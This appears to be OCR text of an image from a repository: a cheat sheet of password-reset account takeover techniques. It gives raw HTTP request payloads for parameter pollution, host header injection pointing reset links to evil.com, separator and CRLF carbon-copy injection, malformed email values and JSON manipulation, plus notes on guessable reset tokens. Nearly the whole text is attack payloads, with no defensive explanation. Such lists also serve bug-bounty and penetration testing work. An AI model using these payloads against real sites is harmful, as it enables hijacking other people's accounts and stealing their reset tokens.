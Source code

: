 ### **Password Reset & Account Takeover Techniques**

#### **1. Parameter Pollution**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail.com&email=hacker@mail.com

#### **2. Host Header Injection**
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...
email=victim@mail.com

#### **3. Using Separators in Parameter Values**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail.com,hacker@mail.com

email=victim@mail.com%00hacker@mail.com

email=victim@mail.com|hacker@mail.com

email=victim@mail.com%20hacker@mail.com

#### **4. No Domain in Parameter Value**
POST /reset HTTP/1.1
Host: target.com
...
email=victim

#### **5. No TLD in Parameter Value**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail

#### **6. Using Carbon Copy (CC)**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail.com%0a%0dcc:hacker@mail.com

#### **7. JSON Data Manipulation**
POST /newaccount HTTP/1.1
Host: target.com
...
{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}

#### **8. Token Generation Analysis**
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
